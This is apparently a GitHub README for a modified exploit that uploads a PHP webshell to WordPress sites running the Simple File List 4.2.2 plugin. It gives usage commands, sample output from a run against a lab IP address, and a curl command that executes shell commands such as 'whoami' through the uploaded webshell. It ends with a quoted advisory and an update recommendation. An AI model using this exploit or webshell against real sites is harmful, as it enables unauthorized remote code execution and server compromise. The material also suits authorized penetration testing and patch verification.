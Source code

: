 # Wordpress-Plugin-Simple-File-List-4.2.2---Remote-Code-Execution
Modified version of original exploit by coiffeur to add a php webshell for vulnerable Wordpress plugin: Simple File List 4.2.2

## Usage
1. Uploading the webshell

```bash
python exploit.py <url>
```
2. Execute RCE via uploaded webshell via GET request on target

```bash
curl <given url path to webshell>?cmd=<command to run on target>
```

3. Profit

## Example

```bash
└─$ python my_exploit.py http://192.168.229.105                                        
[ ] File 2383.png
[ ] File uploaded at http://192.168.229.105/wp-content/uploads/simple-file-list/2383.png
[ ] File moved to http://192.168.229.105/wp-content/uploads/simple-file-list/2383.php
[+] Exploit seem to work.
[+] GET request for RCE via php webshell: http://192.168.229.105/wp-content/uploads/simple-file-list/2383.php?cmd=<command to run on target>
                                                                                                                                                                                                                                             
....                                                                                                                                                                                                                                             
└─$ curl http://192.168.229.105/wp-content/uploads/simple-file-list/2383.php?cmd=whoami
http
                                                       
```

## Exploit Details:

From https://www.acunetix.com/vulnerabilities/web/wordpress-plugin-simple-file-list-arbitrary-file-upload-4-2-2/

**WordPress Plugin Simple File List is prone to a vulnerability that lets attackers upload arbitrary files because the application fails to properly verify user-supplied input. An attacker can exploit this vulnerability to upload arbitrary code and run it in the context of the webserver process. This may facilitate unauthorized access or privilege escalation; other attacks are also possible. WordPress Plugin Simple File List version 4.2.2 is vulnerable; prior versions may also be affected.**

## Remediation

Update to plugin version 4.2.6 or latest.
